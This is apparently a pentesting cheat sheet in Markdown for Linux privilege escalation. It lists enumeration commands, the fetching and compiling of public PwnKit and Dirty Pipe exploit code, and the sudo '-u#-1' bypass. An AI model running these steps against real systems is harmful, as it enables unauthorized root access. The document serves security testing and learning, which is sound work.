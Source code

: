 ## Linux

### Environnement
```bash
hostname
cat /etc/os-release
uname -a
echo $PATH
env
lscpu
cat /etc/shells
history
lastlog
getfacl -R / -s 2>/dev/null
```

### List Processes
```bash
ps aux
ps aux | grep root
```

### Polkit
```bash
pkexec -u root id
git clone https://github.com/arthepsy/CVE-2021-4034.git
gcc cve-2021-4034-poc.c -o poc
```

### Dirty Pipe
```bash
# git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
uname -r
# output : 5.13.0-46-generic
```


### Sudo 
```bash
sudo -l
sudo -V
sudo -version
sudo -u#-1 id
```

### Network
```bash
ip a
ss -tnlp
route
arp -a
cat /etc/hosts
```
